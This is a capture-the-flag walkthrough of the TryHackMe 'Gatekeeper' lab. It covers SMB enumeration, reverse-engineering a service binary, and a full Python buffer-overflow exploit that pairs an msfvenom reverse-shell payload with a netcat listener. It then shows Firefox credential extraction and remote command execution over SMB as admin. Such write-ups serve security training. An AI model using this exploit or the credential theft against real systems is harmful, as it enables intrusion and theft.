# [Gatekeeper](https://tryhackme.com/room/gatekeeper) walkthrough

Can you get past the gate and through the fire?


## First enumeration by the nmap:

```bash
nmap -sV -sC -p- -T4 10.10.87.68 -oN fullport-scan.txt
```

We can see some interesting ports:



but it looks like it's not responding so well, let's look at smb nmap script scan results.



## SmbMap

guest seem work at smb, so lest's use guest account with smbmap

```bash
smbmap -H 10.10.87.68 -u guest -r Users/Share
```



```bash
smbmap -H 10.10.87.68 -u guest --download Users/Share/gatekeeper.exe
```

There is interesting file `gatekeeper.exe` so after downloading it, i will try to make some reverse engineering using radare2

## radare2





As we can see, this is some kind of server listening on port 31337, so probable these program listening on 31337 as main server.

Let's try to found some vulnerability in these program



here we can see that program in did listen on 31337



program crash after sending 200 characters, we can see that EIP value is 41414141, so it was change by value that I send. Let's try to find the offset of EIP, and create buffer overflow.

```bash
msf-pattern_create -l 200
msf-pattern_offset -l 200 -q 39654138
[*] Exact match at offset 146
```

Now we're generating payload

```bash
msfvenom -p windows/custom/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python
```



I wrote exploit with use buffer overflow to make reverse shell

```python
import socket
import os
from threading import Thread


LOCAL_HOST='127.0.0.1'
LOCAL_PORT='4444'
server_ip = '127.0.0.1'
server_port = 31337

def net_cat_listen():
    os.system(f'nc -lvnp {LOCAL_PORT}')

command = f'msfvenom -p windows/shell_reverse_tcp LHOST={LOCAL_HOST} LPORT={LOCAL_PORT} -f python -b "\\x00\\x0a" > buffer.py'
os.system(command)
Thread(target=net_cat_listen, args=[]).start()

from buffer import buf


EIP_offset=146

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((server_ip, server_port))
print(len(buf))
message = b'\x90'*EIP_offset

message +=b'\xc3\x14\x04\x08' #EIP 080414C3
to_send= message +b'\x90'*10 + buf
to_send+='\n'.encode('utf-8')
sent = sock.send(to_send)
sock.close()

```

Now let's try at machine.

## PrivEsc

After I upgrade shell to meterpreter. I made some enumeration and found 



The only interesting application is Mozilla Firefox. Simple methods of privesc doesn't work, so let's try to extract some credentials from Firefox and use them ass login to server.



extracting work fine, so let's decrypt it using [firefox_decrypt](https://github.com/unode/firefox_decrypt)



we got credentials for `https://creds.com` let's try them as credentials to machine

```bash
smbmap -H 10.10.224.135 -u mayor -p <PASSWORD>
```



so we got an admin.

Let's read the flag

```bash
smbmap -H 10.10.224.135 -u mayor -p <PASSWORD> -x 'type Users\mayor\Desktop\root.txt.txt'
```


